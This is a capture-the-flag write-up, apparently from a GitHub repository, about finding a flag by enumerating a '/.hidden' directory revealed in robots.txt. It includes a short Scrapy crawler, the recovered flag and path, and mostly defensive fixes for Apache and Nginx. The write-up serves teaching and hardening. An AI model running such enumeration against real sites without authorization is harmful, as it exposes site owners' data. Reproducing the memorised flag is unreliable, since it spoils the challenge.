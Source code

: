 # Hidden Directory Enumeration Vulnerability

## 🎯 Overview
This vulnerability demonstrates insecure file/directory listing through robots.txt and hidden directories, allowing attackers to discover and access sensitive information through directory traversal and enumeration.

## 🔍 Vulnerability Details
- **Initial Vector**: robots.txt file
- **Hidden Directory**: `/.hidden`
- **Structure**: Multiple nested directories containing README files
- **Target**: Find specific README containing the flag

## ⚔️ Exploitation Process

### 1. Discovery Phase
- Located robots.txt file
- Identified `/.hidden` directory
- Found nested directory structure
- Located multiple README files

### 2. Automated Enumeration
Using Scrapy for automated directory traversal and content analysis:

```python
# Spider configuration
class HiddenDirectorySpider(scrapy.Spider):
    name = 'hidden_spider'
    start_urls = ['http://x.x.x.x/.hidden']
    
    def parse(self, response):
        for next_page in response.css('a ::attr(href)'):
            if next_page.get() != '../':
                if next_page.get() == 'README':
                    yield response.follow(next_page, self.parse_readme)
                yield response.follow(next_page, self.parse)
```

### 3. Running the Exploit
```bash
# Execute the spider
scrapy crawl spider42
```

### Attack Result
**Flag**: 99dde1d35d1fdd283924d84e6d9f1d820
**Location**: `/.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README`

## 🛡️ Security Issues Identified
1. Directory listing enabled
2. Sensitive information in robots.txt
3. Predictable directory structure
4. No access controls
5. Information disclosure through README files

## 🔒 Recommended Security Fixes

### 1. Disable Directory Listing
```apache
# Apache configuration
<Directory /var/www/html>
    Options -Indexes
    AllowOverride None
    Require all granted
</Directory>
```

### 2. Secure Nginx Configuration
```nginx
# Nginx configuration
location / {
    autoindex off;
    deny all;
    return 403;
}
```

### 3. Security Measures Checklist
- [ ] Disable directory listing
- [ ] Remove sensitive information from robots.txt
- [ ] Implement proper access controls
- [ ] Use secure file permissions
- [ ] Enable proper logging
- [ ] Monitor for enumeration attempts
- [ ] Implement rate limiting

### 4. Proper robots.txt Configuration
```text
User-agent: *
Disallow: /admin/
Disallow: /private/
Allow: /public/
```

## 📝 Best Practices

### Directory Security
1. Use proper permissions
2. Implement access controls
3. Monitor access attempts
4. Regular security audits
5. Implement WAF rules

### File System Organization
```plaintext
/public/
  ├── images/
  ├── css/
  └── js/
/private/
  ├── config/
  └── data/
```

## 📚 Additional Resources
- [OWASP Directory Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [Apache Security Best Practices](https://httpd.apache.org/docs/2.4/misc/security_tips.html)
- [Nginx Security Guide](https://docs.nginx.com/nginx/admin-guide/security-controls/)

## ⚠️ Disclaimer
This documentation is for educational purposes only. Always obtain proper authorization before testing security measures on any system.